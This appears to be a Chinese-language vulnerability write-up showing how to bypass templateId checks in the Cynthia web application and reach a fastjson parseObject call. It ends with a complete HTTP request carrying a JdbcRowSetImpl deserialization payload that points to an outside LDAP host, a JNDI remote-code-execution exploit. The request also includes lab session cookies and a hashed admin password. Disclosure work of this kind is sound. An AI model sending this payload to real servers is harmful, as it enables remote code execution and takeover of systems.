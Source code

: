 
可以看到这块有两处校验：

其一：验证templateId字段是否存在；

其二：将字符串templateId转化为UUID对象，根据UUID去数据库或缓存中查询验证是否存在对应的templateId。

所有要想执行下面的templateMailOptions的.parseObject()方法，就必须先绕过上面两层校验。

![image](https://github.com/user-attachments/assets/56fbaf30-415c-4fa2-88fd-4224db9be74d)


在网站中找到对应位置，查看历史数据包找到存在的templateId的值

![image](https://github.com/user-attachments/assets/46c97fdb-2647-427a-b48f-8a852c2ccbab)


![image](https://github.com/user-attachments/assets/7829bc77-c511-4d2f-a580-4e9669c129de)


```SQL
templateId=744728&templateMailOptions=%7B%22actionUsers%22%3A%7B%7D%2C%22sendMail%22%3Atrue%2C%22mailSubject%22%3A%22%5BCynthia%5D%5B1%5D%E6%95%B0%E6%8D%AE%E6%8C%87%E6%B4%BE%E9%82%AE%E4%BB%B6%22%7D

格式化：
templateId = 744728
&
templateMailOptions = {
  "actionUsers": {},
  "sendMail": true,
  "mailSubject": "[Cynthia][1]数据指派邮件"
}
```


进行构造数据包

```SQL
POST /cynthia_war/template/saveTemplateMailConfig.do HTTP/1.1
Host: 192.168.100.4:8080
X-XSRF-TOKEN: null
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://192.168.100.4:8080
Referer: http://192.168.100.4:8080/cynthia_war/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=8CD4022EE3A992316AC39A25C7683B32; webRootDir="http://192.168.100.4:8080/cynthia_war/"; login_username=admin; login_password=21232f297a57a5a743894a0e4a801fc3; userId=""; login_nickname=admin
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 167

templateId=744728&templateMailOptions=[{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap://vrm2rw.dnslog.cn/Exploit",
  "autoCommit": true
}]
```

